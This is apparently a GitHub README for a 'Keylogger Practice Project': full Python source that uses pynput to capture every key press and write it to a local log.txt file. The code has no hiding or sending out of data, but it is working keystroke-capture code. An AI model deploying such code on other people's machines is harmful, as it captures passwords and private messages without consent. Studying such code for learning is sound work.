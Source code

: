 <h1>Keylogger Practice Project</h1>

<h2>Description</h2>
This script uses the pynput library to listen for keyboard events. The on_press function is called whenever a key is pressed, and it appends the pressed key to a global log list. The key is then written to a file called log.txt.
<br />


<h2>Languages and Utilities Used</h2>

- <b>Python</b> 

<h2>Environments Used </h2>

- <b>Windows 11</b> (21H2)

<h2>Program Code:</h2>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

